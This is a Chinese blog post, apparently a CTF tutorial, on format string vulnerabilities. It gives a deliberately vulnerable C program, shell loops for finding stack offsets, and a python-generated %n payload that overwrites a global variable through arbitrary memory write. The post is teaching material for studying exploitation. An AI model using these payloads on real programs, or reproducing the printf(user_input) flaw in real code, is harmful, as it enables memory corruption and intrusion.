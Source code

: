 ```yaml
---
layout: post
title: "[pwn] 格式化字符串漏洞解析和利用"
---
```


#### 0x00 前言 ####

环境： kali 2016.2 i386
工具： peda

#### 0x01 漏洞描述 ####

Format String Vulnerability(格式化字符串漏洞)，漏洞的主要原理是由于使用用户的输入作为格式化字符串，通常针对的是print家族的函数(printf,sprintf,fprintf).常见的漏洞格式为

	printf(User_input);

由于printf并没有限定参数的个数，导致在user_input后面的数据都被解析为printf的参数，通过构造特定的格式化字符串，达到数据泄漏和数据写入。

如果`User_input="%x.%x`"被传入到printf中时，就会泄露栈上8个字节的数据信息。

#### 0x02 漏洞示例 ####

漏洞程序代码：

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>

	int magic = 0x33445566;
	int key = 0x6c6d6e6f;

	int main(int argc, char *argv[]) {
    	char msg[256];
    	strcpy(msg, argv[1]);
   		printf(msg);
    	printf("\n");
    	if (magic == 0x6c6d6e6f) {
        	puts("nice job");
    	}   
    	return 0;
	}

编译：

	gcc -no-pie -o vul vul.c


首先计算计算用户的输入距离print函数的偏移(方便后续的读和写)

	addr1=$'\xaa\xbb\xcc\xdd'
	addr2=$'\x11\x22\x33\x44'
	for i in `seq 1 10`; do ./vul $addr1$addr2' '$i$' %'$i$'$p\n'; done

其中addr1为bash的变量，$表示转义

![formatsv]({{ '/images/201804/format_string_vul_2_1.png' | prepend: site.baseurl }})

通过输出我们可以得出用户的输入在偏移4和5的地方。

接下来我们尝试读取magic地址存放的字符，通过readelf获取变量的地址

![formatsv]({{ '/images/201804/format_string_vul_2_2.png' | prepend: site.baseurl }})

magic的地址为`0x080497a4`,通过设置addr环境变量为magic的地址来读取

	addr=$'\xa4\x97\x04\x08'
	./vul $addr'|%4$s'

![formatsv]({{ '/images/201804/format_string_vul_2_3.png' | prepend: site.baseurl }})

fUD3为magic的值，而onml是key的值，由于他们都存在于.data段中，并且是相邻的，因此通过%s都一起读取出来了

我们最后的目的是修改magic的值为0x6c6d6e6f通过检测

这里我们无法直接传入4个字节转入的10进制的数字，因为太大导致屏幕会一直在输入效率很低，通过以下的计算方式进行连续4字节的数据写入

如何写入连续的4个字节的数据

<pre>// We want to write the value n=0xdeadf00d to "address"
// Lower 16bits of n = 0xf00d = 61453
// Higher 16bits of n = 0xdead = 57005
int amount_lower = 61453;
int amount_higher = (57005 - 61453 + 0x10000) & 0xffff;
// amount_higher = 61088
// resulting in the following format string:
// (note the parameter indices for both addresses)
const char *fmt = "%61453c%5$n%61088c$6n";</pre>

我们需要写入0x6c6d6e6f

	low = 0x6e6f = 28271
	high = 0x6c6d = 27757

	r_high = (27757 - 28271 + 0x10000) & 0xffff = 0xfdfe = 65022

因此我们需要传入的参数为
	
	python -c 'print "\xa4\x97\x04\x08\xa6\x97\x04\x08|%28262c%4$n%65022c%5$n"'

通过gdb调试以下为在调用printf前的栈布局

![formatsv]({{ '/images/201804/format_string_vul_2_4.png' | prepend: site.baseurl }})

以下是调用后

![formatsv]({{ '/images/201804/format_string_vul_2_5.png' | prepend: site.baseurl }})

发现目标地址`0x080497a4`地址的内容成功被改写，并顺利绕过

![formatsv]({{ '/images/201804/format_string_vul_2_6.png' | prepend: site.baseurl }})

#### 0x03 总结 ####

通过程序演示，我们可以通过格式化字符串漏洞进行任意地址的读(目前知道通过%s来以字符串的形式泄漏)以及任意地址写，该漏洞在ctf经常用于信息泄漏
